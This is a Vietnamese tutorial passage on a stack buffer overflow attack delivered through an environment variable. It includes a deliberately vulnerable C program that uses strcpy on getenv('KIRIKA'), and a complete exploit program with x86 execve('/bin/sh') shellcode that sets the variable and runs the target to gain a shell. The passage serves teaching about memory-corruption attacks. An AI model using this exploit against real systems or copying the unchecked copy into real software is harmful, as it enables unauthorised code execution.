### Tấn công thông qua biến môi trường

<div style="text-align: justify; text-indent: 2em;">
Thay vì sử dụng một biến để truyền shellcode đến bộ đệm đích, chúng ta sẽ sử dụng một biến môi trường. Nguyên tắc là sử dụng mã exe.c để thiết lập biến môi trường, sau đó gọi một chương trình dễ bị tấn công (toto.c) chứa một bộ đệm sẽ bị tràn khi chúng ta sao chép biến môi trường vào đó.
</div>

<div style="text-align: justify; text-indent: 2em;">
Sau đây là mã dễ bị tấn công:
</div>

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
	char buffer[96];
	printf("- %p -\n", &buffer);
	strcpy(buffer, getenv("KIRIKA"));
	return 0;
}
```

<div style="text-align: justify; text-indent: 2em;">
Chúng tôi in địa chỉ của bộ đệm để khai thác dễ dàng hơn ở đây, nhưng điều này không cần thiết vì gdb hoặc tấn công bằng vũ lực cũng có thể giúp chúng tôi.
</div>

<div style="text-align: justify; text-indent: 2em;">
Khi biến môi trường KIRIKA được trả về bởi getenv, nó sẽ được sao chép vào bộ đệm, bộ đệm này sẽ bị tràn ở đây và do đó, chúng ta sẽ có được một shell.
</div>

<div style="text-align: justify; text-indent: 2em;">
Sau đây là mã tấn công (exe.c):
</div>

```c
#include <stdlib.h>
#include <unistd.h>

extern char **environ;

int main(int argc, char **argv)
{
	char large_string[128];
	long *long_ptr = (long *) large_string;
	int i;
	char shellcode[] =
		"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
		"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
		"\x80\xe8\xdc\xff\xff\xff/bin/sh";
	for (i = 0; i < 32; i++)
		*(long_ptr + i) = (int) strtoul(argv[2], NULL, 16);

	for (i = 0; i < (int) strlen(shellcode); i++)
		large_string[i] = shellcode[i];

	setenv("KIRIKA", large_string, 1);
	execle(argv[1], argv[1], NULL, environ);
	return 0;
}
```
